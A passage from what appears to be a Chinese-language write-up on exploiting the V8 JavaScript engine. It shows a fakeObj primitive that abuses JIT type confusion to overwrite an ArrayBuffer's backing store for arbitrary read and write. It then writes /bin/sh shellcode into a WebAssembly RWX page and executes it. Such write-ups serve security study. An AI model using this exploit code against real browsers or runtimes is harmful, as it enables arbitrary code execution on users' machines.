 我们对`p1`中的`x1`和`x2`进行写入时，实际上会写入`obj`中的对应位置。这里有一个非常常用的结构`ArrayBuffer`，其中的`backing_store`字段存放了一个内存地址，该地址是实际读写时的地址。如果能够修改该地址为任意地址，则可以利用这一`ArrayBuffer`达到任意地址读写的效果。  
通过调试很容易发现，`backing_store`和`x2`的偏移相同，因此对`x2`进行修改能够达到修改`backing_store`的作用，进而可以控制`ArrayBuffer`任意地址读写。

```plain
function fakeObj(obj, addr) {
  eval(`
  function vuln(obj) {
    obj.a;
    this.Object.create(obj);
    let orig = obj.b${p1}.x2;
    obj.b${p1}.x2 = ${addr};
    return orig;
  }
`);

  let values = [];
  let o = { x1: 1.1, x2: 1.2 };
  values[p1] = o;
  values[p2] = obj;

  for (let i = 0; i < 10000; i++) {
    o.x2 = 1.2;
    let res = vuln(getObj(values));
    if (res != 1.2) {
      return res;
    }
  }
  throw "[!] fakeObj Primitive Failed"
}
```

### Get Shell

Get shell 的方法比较常规，通过`wasm`分配一块可读写可执行的内存，然后通过间接寻址找到这一内存，在这一版本中`wasmInstance`偏移`0xf0`处即为该地址。通过任意地址读写讲 shellcode 写入，通过调用 wasm 中的函数执行写入的 shellcode。

```plain
var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;
let mem = new ArrayBuffer(1024);
let dv = new DataView(mem);
let addr = addrof(wasmInstance);
fakeObj(mem, addr);
let code_addr = Int64.fromDouble(dv.getFloat64(0xf0 - 1, true));
print("rwx addr", code_addr);
fakeObj(mem, code_addr.asDouble());
let shellcode = [
  0x2fbb485299583b6an,
  0x5368732f6e69622fn,
  0x050f5e5457525f54n
];
let data_view = new DataView(mem);
for (let i = 0; i < 3; i++)
  data_view.setBigUint64(8 * i, shellcode[i], true);
f();
```
